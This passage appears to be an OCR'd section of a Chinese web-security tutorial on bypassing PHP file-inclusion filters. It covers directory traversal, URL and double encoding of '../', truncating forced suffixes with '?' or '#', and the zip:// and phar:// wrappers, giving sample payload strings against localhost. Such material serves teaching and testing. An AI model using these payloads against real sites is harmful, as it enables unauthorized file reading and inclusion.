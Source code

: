 
13\. 文件包含漏洞的绕过方法

13.1. 特定前缀绕过

13.1.1. 目录遍历

使用 …/…/ 来返回上一目录，被称为目录遍历 (Path Traversal)。例如 ?file=…/…/phpinfo/phpinfo.php

13.1.2. 编码绕过

服务器端常常会对于…/ 等做一些过滤，可以用一些编码来进行绕过。

服务器端常常会对于…/ 等做一些过滤，可以用一些编码来进行绕过。

1\. 利用 url 编码

0.  ```
    /%2e%2e%2f
    ...
    %2f%2e%2e/
    
    \\%2e%2e%5c
    ...
    %5c%2e%2e\\
    ```
    

2\. 二次编码

```
/%252e%252e%252f
/%252e%252e%255c
```

  

2.  13.2. 指定后缀绕过
    
  

13.2.1. query(?)

\[访问参数\] ?file=http://localhost:8081/phpinfo.php?

\[拼接后\]  ?file=http://localhost:8081/phpinfo.php?.txt

? 将后面的. txt 截断, web 服务器会认为. txt 是一个新的参数

13.2.2. fragment(#)

\[访问参数\] ?file=http://localhost:8081/phpinfo.php%23

\[拼接后\]  ?file=http://localhost:8081/phpinfo.php#.txt

13.2.3. zip://

\[访问参数\] ?file=zip://D:\\zip.jpg%23phpinfo

\[拼接后\]  ?file=zip://D:\\zip.jpg#phpinfo.txt

13.2.4. phar://

\[访问参数\] ?file=phar://zip.zip/phpinfo
